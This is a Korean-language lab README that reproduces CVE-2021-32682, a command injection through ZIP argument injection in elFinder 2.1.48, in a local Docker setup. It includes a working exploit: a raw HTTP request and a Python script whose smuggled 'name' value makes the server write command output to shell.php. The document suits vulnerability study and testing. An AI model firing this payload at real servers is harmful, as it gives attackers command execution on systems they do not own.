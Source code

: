 # elFinder ZIP 인자 주입 취약점으로 인한 Command Injection (CVE-2021-32682)
* elFinder는 jQuery UI 기반의 웹 오픈소스 파일 관리자입니다.
* elFinder 2.1.48 이하 버전에서 ZIP 아카이브 처리 과정 중 인자 주입 취약점이 발견되었습니다.
* 공격자는 최소한의 구성으로도 elFinder PHP Connector를 호스팅하는 서버에서 임의의 명령을 실행할 수 있습니다.
## 환경 구성 및 실행
1. 다음 명령어로 elFinder 2.1.48을 실행합니다.
```
docker compose up -d
```
2. 서버 시작 후 elFinder의 메인 페이지를 `http://127.0.0.1:8080`에서 확인할 수 있습니다.
## 취약점 재현
취약점 재현을 위하여 먼저 두 개의 파일을 만들어야 합니다.
`1.txt` 파일을 생성합니다.

![image](https://github.com/user-attachments/assets/1602df64-885c-414d-a796-8717ba907713)

해당 파일을 ZIP 포멧으로 압축한 후, 파일 이름을 `2.zip`으로 변경합니다.

![image](https://github.com/user-attachments/assets/719dadbf-eb63-42c0-8820-692b0ea62796)

`1.txt`와 `2.zip`을 확인합니다.

<img width="182" alt="image" src="https://github.com/user-attachments/assets/76a24ab3-948c-4529-a529-35ad9d8244fa" />


다음 HTTP request를 전송합니다.
```
GET /php/connector.minimal.php?cmd=archive&name=-TvTT=id>shell.php%20%23%20a.zip&target=l1_Lw&targets%5B1%5D=l1_Mi56aXA&targets%5B0%5D=l1_MS50eHQ&type=application%2Fzip HTTP/1.1
Host: your-ip
Accept: application/json, text/javascript, */*; q=0.01
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
X-Requested-With: XMLHttpRequest
Referer: http://localhost.lan:8080/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Connection: close

```
다음과 같은 python 코드를 통해 request를 전송할 수 있습니다.
```
import requests

url = "http://127.0.0.1:8080/#elf_l1_Lw/php/connector.minimal.php"

params = {
    "cmd": "archive",
    "name": "-TvTT=id>shell.php # a.zip",  
    "target": "l1_Lw",
    "targets[0]": "l1_MS50eHQ",  
    "targets[1]": "l1_Mi56aXA",  
    "type": "application/zip"
}

headers = {
    "Host": "127.0.0.1:8080",
    "Accept": "application/json, text/javascript, */*; q=0.01",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64)",
    "X-Requested-With": "XMLHttpRequest",
    "Referer": "http://localhost.lan:8080/",
    "Accept-Encoding": "gzip, deflate",
    "Accept-Language": "en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7",
    "Connection": "close"
}

response = requests.get(url, params=params, headers=headers)
print(response.text)
```
해당 request에는 다음과 같은 정보가 포함되어 있습니다.
* `id>shell.php`로 명령어 실행 및 출력 저장.
* base64 디코딩 시 `target[0]`의 값 `MS50eHQ`는 `1.txt`, `target[1]`의 값 `Mi56aXA`는 `2.zip`.


request 전송 이후 `http://127.0.0.1:8080/#elf_l1_Lw/files/shell.php`를 입력하여 `shell.php`를 확인합니다.

![image](https://github.com/user-attachments/assets/c0efc7d8-1cd7-4cdf-9895-d008c84047a3)

shell.php를 열어 명령어가 실행된 결과를 확인합니다.
```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```




